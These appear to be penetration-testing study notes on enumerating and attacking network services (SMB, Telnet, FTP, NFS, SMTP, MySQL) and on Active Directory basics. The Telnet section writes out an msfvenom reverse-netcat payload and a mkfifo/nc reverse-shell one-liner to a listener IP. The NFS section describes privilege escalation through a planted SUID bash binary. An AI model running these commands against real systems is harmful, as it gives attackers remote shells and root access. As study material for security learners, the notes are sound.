






Network Server Services
Network services Link to heading
SMB Link to heading
-
Enum4Linux, tools to extract from smb server on both windows and linux
-
Command Usage:
enum4linux [options] ip-Uget userlist-Mget machine list-Nget namelist dump (different from -U and -M)-Sget sharelist-Pget password policy information-Gget group and member list-aall of the above (full basic enumeration) -
Access the
smbclient //[IP]/[SHARE]-U [name]: to specify the user-p [port]: to specify the port
Telnet Link to heading
smfvenon Link to heading
- Can be used to connect via telnet
- mkfifo: generate payload:
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R- Listen to the port with
nc -lvp 4444 - Send the generated payload to the shell
mkfifo /tmp/peqgmh; nc 10.10.15.142 4444 0</tmp/peqgmh | /bin/sh >/tmp/peqgmh 2>&1; rm /tmp/peqgmh' - The response will be send to the 4444 port
- Listen to the port with
FTP Link to heading
- connect command
ftp [IP] - has port 20 and 21
- one for command communitation, the other for data transportation
- FTP can be passive and active,
- active: data server reached out to the client port
- passive: server listen to their local port
- For some server, FTP’s in.ftpd enumeration exploit
- Man-in-the-middle attack using ARP poisoning
NFS Link to heading
- NFS can be used to transfer files between different operating systems, each of the computer can act as NFS file server to any other computer. How the NFS Service Works
- In simple term, NFS is mounting a remote directory on the local system like a hard disk.
- Mounting service will use this to connect to the relevant mount daemon using RPC. (Use RPC to communicate between devices)
- Steps:
- First checks the directory permission for whatever requested
- RPC call is placed to NFSD when someone wants to access a file using NFSD. Which the daemon has the following information (these are used to control to verify file permission)
- The file handle
- The name of the file to be accessed
- The user’s, user ID
- The user’s group ID
- Required package for NFS service: NFS-Common
- Program includes:
- lockd
- statd
- showmount
- nfsstat
- gssd
- idmapd
- mount.nfs
- More information about this package
- Program includes:
- Port displayed as
nfs_acl - Example mounting NFS command
sudo mount -t nfs IP:share /tmp/mount/ -nolocksudo: Run as rootmount: Execute the mount command-t nfsType of device to mount, then specifying that it’s NFSIP:share: The IP Address of the NFS server, and the name of the share we wish to mount-nolockSpecifies not to use NLM locking
- More Reading
NFS configuration Link to heading
- File with
SUIDbit set means that the file can be run with the permission of the file(s) owner/group- If this bit is on, (s instad of x in the permission) then this file will be run as root permission by all user
root_squashis an NFS configuration that prevents outside user to be able to access the root priviledge. Automatically assign user to “nfsnobody”. If this is not set properly, then it alow the user the creation of SUID bit files.- Possible scenario if
root_squashis off- Ubuntu Server 18.04 bash executable:
https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash - upload files to the NFS share and change the permission to S bit
- run this bash shell as root, completion of escalate privileges
- Ubuntu Server 18.04 bash executable:
SMTP Link to heading
- The mail service comprising of two services
- SMTP: A protocol that deliver the mail to the destination
- It verifies who is sending emails through the SMTP server.
- It sends the outgoing mail
- If the outgoing mail can’t be delivered it sends the message back to the sender
- POP/IMAP: A protocol that control the retriving processes for the receiver
- POP: Receiver uses POP protocol to “retrieve” email from POP server
- IMAP: Receiver uses IMAP to “synchronize” email with the IMAP server

- SMTP: A protocol that deliver the mail to the destination
- Simplify version on how it work:
- User initiate SMTP handshake with SMTP port (25)
- User send email to SMTP server
- SMTP server checks if the domain name of the recipient and the sender is the same (check if sending to itself)
- The sender’s SMTP server connect to the recipient SMTP server. Relay the emails if recipient’s SMTP server is online, otherwise, the Email gets put into an SMTP queue (periodicly resend)
- The recipient’s SMTP server verify the validity of domain and user name. Then forward to the recipient POP/IMAP
- The E-Mail will then show up in the recipient’s inbox.
- How Email Works
- SMTP protocol explaned
Enumeration Link to heading
- Enumerating Server details: Metasploit:
smtp_versionscan the version of the smtp - Enumerating Users:
VRFY: confirming the nameEXPN: actual address of user’s aliases and lists of e-mail
- Enumeration is doable via telnet, but metasploit’s module
smtp_enumis more efficient witha a wordlist - There are other tools such as “smtp-user-enum” which works better on Solaris
- Enumeration is performed by inspecting the responses to VRFY, EXPN, and RCPT TO commands
- The technique could work aganst other vulnerable SMTP daemons
MySQL Link to heading
SQL Query Execution PHP MySQL Database
- Im mySQL, schema is synonymous with a database. While in other database, schema only represent a part of the database
- e.g.
CREATE SCHEMAinstead ofCREATE DATABASE
- e.g.
- Hash can be used in an different way in mySQL, each hash has a unique ID that serves as a pointer to the original data
- Related metasploit module
mysql_sql,mysql_schemadump,mysql_hashdump
ADDS Link to heading
- Active Domain Directory Services
- Machine naming Scheme:
DC01will have account nameDC01$
Group Policy Management Link to heading
- Every GPO (group policy object) is linked to a OU (Organizational Unit) and applied to linked OU and Every sub-OU under it

- Every GPO can apply to a group of user or computer through security filtering
- GPO has configurations that can apply to computers only and configurations that can apply to users only. (user and computer each as a section per GPO)
- Any policy changes are made via Group Policity Management Editor by right click edit on the GPO *Note that the configuration made for user will be ignored by the computer, the reverse is also true.
GPO distribution Link to heading
- GPOs are distributed to the DC network via a network share called
SYSVOLwhich is stored in the DC. - Share point on DC by defauly
C:\Windows\SYSVOL\sysvol\ - Usually require 2h for DC to sync GPO, but can manually force via command
gpupdate /force
Authentication Link to heading
Protocol used for network authentication in Windows domain NetNTLM: Legacy authentication Kerberos: Used by the recent version
Kerberos Authentication Link to heading
The whole thing is build upon no need to send the authentication information everything when accessing network services Step One: Granting TGT (allow the user to request services on the network)

Step Two: Use TGT to acquire services ticket
Step Three:
NetNTLM Authentication Link to heading
